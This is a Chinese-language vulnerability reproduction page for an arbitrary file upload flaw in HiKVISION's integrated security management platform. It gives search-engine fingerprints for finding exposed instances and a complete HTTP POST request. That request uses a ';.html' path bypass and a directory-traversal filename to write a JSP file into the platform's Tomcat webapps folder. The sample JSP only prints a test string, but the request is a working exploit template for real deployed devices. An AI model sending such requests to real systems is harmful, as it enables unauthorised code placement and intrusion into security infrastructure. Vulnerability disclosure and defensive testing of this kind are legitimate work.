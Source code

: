 # HiKVISION 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>HiKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317.png)

需要开放运行管理中心 (8001端口)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1686202553411-652899eb-3e94-487a-9e7f-f90e245aeb66.png)

```plain
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1686044472564-03129d33-f072-40d9-8570-0a96bbb6e30f.png)
